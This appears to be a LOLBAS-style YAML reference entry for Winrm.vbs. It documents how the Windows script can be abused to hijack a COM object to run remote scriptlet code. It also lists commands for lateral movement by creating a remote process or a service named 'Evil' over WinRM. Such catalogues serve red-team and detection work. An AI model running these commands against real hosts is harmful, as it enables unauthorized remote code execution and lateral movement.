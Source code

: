 ```yaml
---
Name: Winrm.vbs
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
    Description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
  - Command: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.
  - Command: "winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
    Description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
Full Path:
  - C:\windows\system32\winrm.vbs
  - C:\windows\SysWOW64\winrm.vbs
Code Sample:
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr.reg
  - https://github.com/api0cradle/LOLBAS/blob/master/OSScripts/Payload/Slmgr_calc.sct
Detection: []
Resources:
  - https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - https://www.youtube.com/watch?v=3gz1QmiMhss
  - https://github.com/enigma0x3/windows-operating-system-archaeology
  - https://redcanary.com/blog/lateral-movement-winrm-wmi/
  - https://twitter.com/bohops/status/994405551751815170
Notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc: Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)
---
```

